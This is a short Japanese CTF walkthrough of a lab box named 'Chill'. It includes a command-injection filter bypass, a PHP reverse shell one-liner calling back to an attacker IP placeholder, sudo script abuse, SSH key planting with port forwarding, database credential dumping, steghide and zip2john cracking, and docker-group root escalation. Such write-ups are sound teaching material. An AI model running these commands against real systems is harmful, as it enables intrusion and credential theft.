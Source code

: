 ```yaml
---
title: "Chill"
date: 2024-03-16T11:49:38+09:00
draft: false
---
```


### user.txt

- gobuster で見つかった /secret にアクセスすると linux コマンドを実行できるサイトが見つかる
  - ```ls``` を実行すると ```are you hacker?``` っていうアラートが出る
  - ```pwd;ls``` だとアラートが出ず，実行結果が見える
  - ここにリバースシェルを入れればいい
- ```whoami;php -r '$sock=fsockopen("your-vpn-ip",4444);exec("/bin/sh -i <&3 >&3 2>&3");'```
  - www-data では何もできない
  - ```sudo -l``` で，.helpline.sh が apaar として実行できるっぽい
  - .helpline.sh を見ると，```$msg 2>/dev/null``` が見える
  - ```/bin/bash``` を実行すれば apaar としてシェルをもらえる

### root.txt

- linpeas.sh
  - 127.0.0.1:9001 が localhost から実行できるらしい
  - で，ここに mysql が動いてる
  - local で ssh-keygen
    - ```echo "contents of .pub" >> /home/apaar/.ssh/authorized_keys```
    - ```ssh -L 9001:127.0.0.1:9001 apaar@10.10.233.203 -i id_rsa```
  - index.php を見ると root とパスワードが載ってる
    - apaar から mysql にログイン
    - ```mysql -h localhost -u root -p```
    - ```show databese```
    - ```show tables```
    - ```SELECT * FROM users``` -> anurodh のパスワード
    - customer portal みたいなとこからログインして，images をダウンロードする
    - ```steghide —extract -sf .jpg```
    - ```zip2john```
    - あとは php の中を見て anurodh の base64 エンコードされたパスワードを見る
- anurodh
  - docker ユーザなので GTFObin でOK
- 結構難しかったな
